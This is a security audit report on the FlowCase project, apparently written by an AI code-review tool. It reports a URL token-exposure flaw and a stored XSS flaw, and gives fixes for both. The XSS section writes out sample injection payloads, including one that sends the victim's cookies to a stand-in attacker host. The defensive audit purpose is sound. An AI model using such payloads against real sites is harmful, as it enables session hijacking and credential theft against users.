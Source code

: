 # FlowCase Security Review - Project-Wide Analysis
**Date:** August 17, 2025  
**Scope:** Complete codebase security assessment  
**Reviewer:** Claude Code Security Analysis  

## Executive Summary

A comprehensive security review of the FlowCase project identified **2 high-confidence security vulnerabilities** requiring immediate attention. The analysis focused on the OWASP Top 10 2021 vulnerabilities and examined all source code files for concrete, exploitable security issues.

**Risk Assessment:**
- **1 HIGH severity vulnerability** - Authentication token exposure in URLs
- **1 MEDIUM severity vulnerability** - Stored XSS in droplet management interface

Both vulnerabilities present clear attack paths and should be remediated before production deployment.

## Detailed Findings

### Vuln 1: Authentication Token Exposure - `routes/droplet.py:571-606`

* **Severity:** High
* **Category:** A02:2021 – Cryptographic Failures
* **Confidence Score:** 9/10

* **Description:** Authentication tokens containing sensitive server credentials (including plaintext passwords) are embedded in URLs as GET parameters, exposing them through multiple vectors including server logs, browser history, and referrer headers.

* **Technical Details:** 
  - The `generate_guac_token()` function creates tokens containing server IP, username, and **plaintext password**
  - Tokens are transmitted via URL parameters: `url += `instance_id=${instanceInfo.id}&guac_token=${instanceInfo.guac_token}``
  - Gunicorn access logging is enabled (`accesslog = "-"` in gunicorn.conf.py), capturing all URLs with embedded tokens

* **Exploit Scenario:** 
  1. Attacker gains access to server logs, browser history, or network monitoring
  2. Extracts the encrypted `guac_token` from logged URLs
  3. Uses the token to access Guacamole VNC/RDP sessions (replay attack)
  4. Gains unauthorized access to target systems with embedded credentials

* **Recommendation:** 
  - Move authentication tokens from URL parameters to POST request bodies
  - Implement token rotation and expiration
  - Use separate authentication flow for Guacamole access
  - Consider using short-lived session tokens instead of embedding credentials

---

### Vuln 2: Stored XSS in Droplet Management - `templates/dashboard.html:180-187`

* **Severity:** Medium  
* **Category:** A03:2021 – Injection
* **Confidence Score:** 9/10

* **Description:** User-controlled data from droplet names and descriptions is directly embedded into JavaScript onclick handlers without proper escaping, enabling stored XSS attacks.

* **Technical Details:**
  - Template code: `<div class="droplet" onclick="OpenDropletModal('${droplet.id}', '${droplet.display_name}', '${droplet.description}')">` 
  - Users with `perm_edit_droplets` permission can inject malicious JavaScript into droplet fields
  - Payloads execute when any user clicks on the affected droplet

* **Exploit Scenario:**
  1. Attacker with `perm_edit_droplets` permission creates/edits a droplet
  2. Injects malicious JavaScript into `display_name` or `description` fields:
     - `display_name`: `evil', alert('XSS'), '`
     - `description`: `evil', document.location='http://attacker.com/steal?c='+document.cookie, '`
  3. When victims view the dashboard and click the droplet, malicious code executes
  4. Enables session hijacking, credential theft, or administrative actions in victim's context

* **Recommendation:**
  - Implement proper HTML/JavaScript escaping for all user-controlled data in templates
  - Use JavaScript templating with built-in XSS protection
  - Validate and sanitize droplet names and descriptions on input
  - Consider using Content Security Policy (CSP) to limit inline JavaScript execution

## OWASP Top 10 2021 Assessment Summary

| OWASP Category | Status | Findings |
|---|---|---|
| A01:2021 – Broken Access Control | ✅ Secure | No exploitable access control issues found |
| A02:2021 – Cryptographic Failures | ⚠️ Issues Found | 1 HIGH - Token exposure in URLs |
| A03:2021 – Injection | ⚠️ Issues Found | 1 MEDIUM - Stored XSS vulnerability |
| A04:2021 – Insecure Design | ✅ Secure | No significant design flaws identified |
| A05:2021 – Security Misconfiguration | ✅ Secure | No critical misconfigurations found |
| A06:2021 – Vulnerable Components | ✅ Secure | Dependencies appear up-to-date |
| A07:2021 – Authentication Failures | ✅ Secure | External auth via Authentik properly implemented |
| A08:2021 – Data Integrity Failures | ✅ Secure | No integrity issues identified |
| A09:2021 – Logging/Monitoring Failures | ✅ Secure | Appropriate logging practices observed |
| A10:2021 – Server-Side Request Forgery | ✅ Secure | No exploitable SSRF vulnerabilities |

## False Positive Analysis

During the analysis, several potential vulnerabilities were identified but determined to be false positives after detailed code review:

- **SQL Injection in permissions system** - SQLAlchemy ORM properly parameterizes queries
- **Command injection in Docker operations** - Uses hardcoded values, no user input influence
- **Path traversal in file operations** - Instance IDs are secure UUIDs, not user-controllable
- **Insecure direct object references** - Proper authorization checks implemented with UUID-based access
- **Weak secret key generation** - Limited session usage and external authentication mitigate risk

## Recommendations

### Immediate Actions (Priority 1)
1. **Fix authentication token exposure** - Move tokens from URLs to secure request bodies
2. **Implement XSS protection** - Add proper escaping for all user-controlled template data

### Security Enhancements (Priority 2)
1. **Content Security Policy** - Implement strict CSP to prevent XSS execution
2. **Token management** - Add token rotation and expiration mechanisms  
3. **Input validation framework** - Centralize validation for all user inputs
4. **Security headers** - Add security headers (HSTS, X-Frame-Options, etc.)

### Monitoring & Testing (Priority 3)
1. **Security testing** - Add automated security tests to CI/CD pipeline
2. **Access logging** - Enhance logging for security events and failed access attempts
3. **Regular reviews** - Establish periodic security review process for code changes

## Conclusion

The FlowCase application demonstrates generally good security practices with proper use of external authentication, access controls, and secure coding patterns. The two identified vulnerabilities, while serious, are concentrated in specific areas and can be addressed with targeted fixes.

The **HIGH severity** authentication token exposure vulnerability should be addressed immediately as it could lead to credential theft and unauthorized system access. The **MEDIUM severity** XSS vulnerability, while requiring elevated privileges to exploit, creates a privilege escalation vector that should also be remediated promptly.

After addressing these issues, FlowCase should be suitable for production deployment in a security-conscious environment.

---

**Review Methodology:** This analysis used automated code scanning combined with manual review of all source files, focusing on the OWASP Top 10 2021 vulnerability categories. Only high-confidence findings (≥8/10 confidence score) with clear exploitation paths are reported to minimize false positives.